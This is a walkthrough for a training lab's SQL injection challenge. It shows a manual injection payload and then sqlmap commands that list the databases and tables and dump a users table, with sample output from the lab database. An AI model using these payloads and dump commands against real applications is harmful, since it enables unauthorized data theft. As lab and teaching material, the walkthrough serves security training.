 
# 🛠️ SQL Injection Lab 0x03 Challenge Walkthrough [sqlmap]

---

## 🌐 Identifying SQL Injection Points

1. **Initial Testing**:  
   Confirm that SQL injection is possible.
   - Test with a simple payload:  
     ```
     x' or 1=1#
     ```
   - **Outcome:** If successful, it means the application is potentially vulnerable to SQL injections.

---

## 📊 Using `sqlmap` to Automate SQL Injection

### 1️⃣ **Database Focus**
Identify available databases:
```bash
sqlmap -r req-sqli3.txt --dbs
```

Example Output:
```
[23:58:45] [INFO] fetching database names
available databases [3]:
[*] bb-labs
[*] information_schema
[*] performance_schema
```

---

### 2️⃣ **Table Enumeration**
List all tables in a specific database (e.g., `bb-labs`):
```bash
sqlmap -r req-sqli3.txt -D bb-labs --tables
```

Example Output:
```
[23:58:11] [INFO] fetching tables for database: 'bb-labs'
Database: bb-labs
[14 tables]
+------------------------+
| api0x01                |
| auth0x02               |
| auth0x03               |
| c0x03                  |
| csrf0x01               |
| csrf0x02               |
| idor0x01               |
| injection0x01          |
| injection0x02          |
| injection0x03_products |
| injection0x03_users    |
| injection0x04          |
| xss0x02                |
| xss0x03                |
+------------------------+
```

---

### 3️⃣ **Dumping Data**
Target a specific table (e.g., `injection0x03_users`) to extract its contents:
```bash
sqlmap -r req-sqli3.txt -D bb-labs -T injection0x03_users --dump
```

---

## 🎯 Tips for Effective SQL Injection Testing

1. **Specify Both Database and Table:**  
   Always specify the database and table to ensure precise targeting and efficient testing.
2. **Use Saved Requests:**  
   Utilize `-r` to load HTTP requests from saved files, aiding in replicating precise attack scenarios.
3. **Monitor Output:**  
   Review logs and extracted data for anomalies or patterns that can guide further testing.

---

## 📝 Notes

- `sqlmap` fully automates the discovery and exploitation of SQL injection vulnerabilities.
- Always ensure you have permission to test and exploit vulnerabilities in any database or application.

---

